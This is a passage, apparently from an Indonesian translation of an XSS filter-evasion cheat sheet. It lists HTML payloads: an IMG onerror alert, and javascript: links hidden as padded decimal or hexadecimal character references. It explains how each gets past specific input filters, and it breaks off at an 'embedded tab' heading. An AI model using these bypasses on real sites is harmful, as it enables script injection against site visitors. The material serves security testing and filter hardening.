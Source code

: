 ### Peringatan Kesalahan

```html
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
```

### IMG onerror dan Kode Peringatan JavaScript

```html
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
```

### Referensi Karakter HTML Desimal

Karena contoh XSS yang menggunakan direktif `javascript:` di dalam tag `<IMG` tidak berfungsi di Firefox, pendekatan ini menggunakan referensi karakter HTML desimal sebagai solusi:

```html

<a href="&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;">Klik Saya!</a>
```

### Referensi Karakter HTML Desimal Tanpa Titik Koma di Akhir

Hal ini sering kali efektif dalam melewati filter XSS yang mencari string `&\#XX;`, karena kebanyakan orang tidak tahu tentang padding - yang dapat digunakan hingga total 7 karakter numerik. Hal ini juga berguna terhadap filter yang mendekode terhadap string seperti `$tmp\_string =\~ s/.\*\\&\#(\\d+);.\*/$1/;` yang secara tidak tepat mengasumsikan bahwa titik koma diperlukan untuk mengakhiri string yang dikodekan HTML (Hal ini telah terlihat di alam liar):

```html
<a href="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">Click Me</a>
```

### Referensi Karakter HTML Heksadesimal Tanpa Titik Koma di Akhir

Serangan ini juga dapat digunakan terhadap filter untuk string `$tmp\_string=\~ s/.\*\\&\#(\\d+);.\*/$1/;`, karena mengasumsikan bahwa ada karakter numerik setelah simbol pound - yang tidak berlaku untuk karakter HTML heksadesimal:

```html
<a href="&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29">Klik Saya</a>
```

### Tab Tertanam

Pendekatan ini memecah serangan XSS:
